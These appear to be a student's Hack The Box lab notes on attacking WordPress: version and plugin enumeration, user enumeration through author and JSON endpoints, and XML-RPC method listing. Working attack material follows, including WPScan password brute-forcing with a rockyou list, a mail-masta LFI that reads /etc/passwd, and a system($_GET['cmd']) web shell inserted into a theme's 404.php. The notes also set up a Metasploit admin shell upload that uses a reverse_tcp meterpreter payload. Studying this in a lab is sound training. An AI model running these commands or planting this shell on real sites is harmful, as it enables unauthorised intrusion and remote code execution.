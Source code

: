 We can search for the `meta generator` tag using the shortcut `[CTRL + F]` in the browser or use `cURL` along with `grep` from the command line to filter for this information.
``` bash
astrocat@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'
```
```html
<meta name="generator" content="WordPress 5.3.3" />
```
``` bash
astrocat@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

# Change the grep to themes to find theme info

http://blog.inlanefreight.com/wp-content/plugins/wp-google-places-review-slider/public/css/wprev-public_combine.css?ver=6.1
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/plugins/wp-google-places-review-slider/public/js/wprev-public-com-min.js?ver=6.1
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.3.3
```
### Directory Indexing
``` bash
astrocat@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text

****** Index of /wp-content/plugins/mail-masta ******
[[ICO]]       Name                 Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                         -  
[[DIR]]       amazon_api/          2020-05-13 18:01    -  
[[DIR]]       inc/                 2020-05-13 18:01    -  
[[DIR]]       lib/                 2020-05-13 18:01    -  
[[   ]]       plugin-interface.php 2020-05-13 18:01  88K  
[[TXT]]       readme.txt           2020-05-13 18:01 2.2K  
===========================================================================
     Apache/2.4.29 (Ubuntu) Server at blog.inlanefreight.com Port 80

```
### User Enumeration
``` bash
astrocat@htb[/htb]$ curl -s -I http://blog.inlanefreight.com/?author=1

HTTP/1.1 301 Moved Permanently
Date: Wed, 13 May 2020 20:47:08 GMT
Server: Apache/2.4.29 (Ubuntu)
X-Redirect-By: WordPress
Location: http://blog.inlanefreight.com/index.php/author/admin/
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

The above `cURL` request then redirects us to the user's profile page or the main login page. If the user does not exist, we receive a `404 Not Found error`.

Interaction with the `JSON` endpoint, which allows us to obtain a list of users. This was changed in WordPress core after version 4.7.1, and later versions only show whether a user is configured or not. Before this release, all users who had published a post were shown by default.

#### JSON Endpoint

``` bash
astrocat@htb[/htb]$ curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq
```
#### PW Bruteforcing

Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:

#### cURL - POST Request

``` bash
astrocat@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

```
Find out from the [WordPress website](https://codex.wordpress.org/XML-RPC/system.listMethods) that there is a method named `listMethods` that returns a list of available methods.

``` bash
user@parrot:~$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://94.237.123.178:32335/xmlrpc.php | grep string | wc -l                                              
80                                                                                                                                 
user@parrot:~$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://94.237.123.178:32335/xmlrpc.php | grep string         
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
```
### Using WPScan

Note: The default number of threads used is 5, however, this value can be changed using the "-t" flag.

``` bash
astrocat@htb[/htb]$ wpscan --url http://blog.inlanefreight.com --enumerate --api-token Kff

[+] URL: http://blog.inlanefreight.com/                                                   
```
In my parrot OS do this
``` bash
docker run -it --rm --network host wpscanteam/wpscan -e p --url https://10.129.181.20 --disable-tls-checks --no-banner --plugins-detection passive -t 100 --api-token C0Q
```
### LFI - Local File Inclusion

``` bash
user@parrot:~$ curl -s http://94.237.53.81:42636/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd                                                                                     
root:x:0:0:root:/root:/bin/ash
```
### WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPscan - XMLRPC
``` bash
astrocat@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

user@parrot:~/htb$ docker run -it --rm --network host -v "$(pwd)/rockyou-20.txt":/rockyou-20.txt wpscanteam/wpscan --password-attack xmlrpc -U roger -P /rockyou-20.txt --url http://94.237.53.81:42636 -t 100

```
### Remote Code Execution (RCE) via the Theme Editor

Twenty Seventeen Theme - 404.php file within Wordpress

\<?php
system($_GET['cmd']); <-- adding this line introduces RCE
/**
``` bash
user@parrot:$curl -s http://46.101.28.14:31864/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/wp-user/flag.txt
```
### Attacking WordPress with Metasploit
``` bash
[msf](Jobs:0 Agents:0) >> search wp_admin
Matching Modules  
================ 
   #  Name                                       Disclosure Date  Rank       Check  Description                                                                                                                    
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_admin_shell_upload

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(unix/webapp/wp_admin_shell_upload) >> options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, socks5h, http
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port 

Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

